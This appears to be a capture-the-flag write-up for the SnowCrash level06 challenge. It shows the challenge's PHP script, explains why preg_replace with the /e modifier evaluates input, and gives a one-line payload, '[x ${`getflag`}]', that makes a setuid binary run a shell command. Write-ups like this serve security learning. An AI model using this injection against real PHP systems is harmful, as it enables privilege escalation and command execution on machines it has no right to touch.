 $ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile

level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php

// Function 'y' takes a string 'm' and replaces all occurrences of '.' with ' x '
// and all occurrences of '@' with ' y', then returns the modified string.
function y($m) { 
    $m = preg_replace("/\./", " x ", $m); // Replace '.' with ' x '
    $m = preg_replace("/@/", " y", $m); // Replace '@' with ' y'
    return $m; 
}

// Function 'x' takes two arguments, 'y' as the file path and 'z' (unused), 
// reads the file content, and performs a series of replacements on the content:
// 1. Executes function 'y' on substrings that match the pattern '[x <something>]'
// 2. Replaces '[' with '(' and ']' with ')'
// Finally, returns the modified file content.
function x($y, $z) { 
    $a = file_get_contents($y); // Read the content of the file specified by path 'y'
    // The 'e' modifier is used here to execute 'y' function on the matches, but it's deprecated and removed in later PHP versions
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // Replace '[x <something>]' with the result of function 'y'
    $a = preg_replace("/\[/", "(", $a); // Replace '[' with '('
    $a = preg_replace("/\]/", ")", $a); // Replace ']' with ')'
    return $a; 
}

// Execute function 'x' with the first command-line argument as the file path
// and print the returned, modified content to standard output.
$r = x($argv[1], $argv[2]); // Call 'x' with arguments provided via command line
print $r; // Print the result

?>

if we focus on the line 

$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 


(\[x (.*)\])/e  captures [x <something>]

and the /e tells use to replace the match text with the result of calling the function y with the caputured text

but we wont pass the whole captured text
we will only send the part that matches the second capturing group of the match text because of \2


echo '[x ${`getflag`}]' > /tmp/flag06

./level06 /tmp/flag06


